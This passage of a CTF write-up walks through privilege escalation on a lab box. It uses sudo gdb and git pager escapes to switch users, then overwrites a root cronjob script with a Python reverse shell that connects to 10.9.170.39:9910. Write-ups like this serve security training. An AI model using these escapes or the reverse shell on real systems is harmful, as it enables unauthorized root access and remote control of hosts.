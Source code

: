 ```sh
sudo gdb -nx -ex '!sh' -ex quit
```

I try to run the command with the user thirtytwo:

```sh
sudo -u thirtytwo /var/www/gdb -nx -ex '!sh' -ex quit
```

After running this command i'm the user Thirtytwo. 

Check again with sudo -l i can run "git" as sudo without a password. 
Checked again GTFOBins for some Sudo commands for git. 

```sh
(remote) thirtytwo@ubuntu-xenial:/home/thirtytwo$ sudo -l
Matching Defaults entries for thirtytwo on ubuntu-xenial:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User thirtytwo may run the following commands on ubuntu-xenial:
    (d4rckh) NOPASSWD: /usr/bin/git
```

Will try this command:
```sh
sudo -u d4rckh /usr/bin/git -p help config
!/bin/sh
```

now i am the user d4rckh. 
In the home directory there is the "user.flag" file
user flag: 0#############################f

Now i can got for the Root user. 

## Getting Root-Access

Checked the user directory and found the file cleanup.py. 
After some enumerating, i found out that the file is running every 2 minutes as a cronjob with the user root. 

I decided to change the file, that a reverse shell will open to my client. 

used this python script:

```py
# =*- coding: utf-8 -*-
#!/usr/bin/env python

import socket, os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.9.170.39",9910))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
os.system("/bin/sh -i")
```
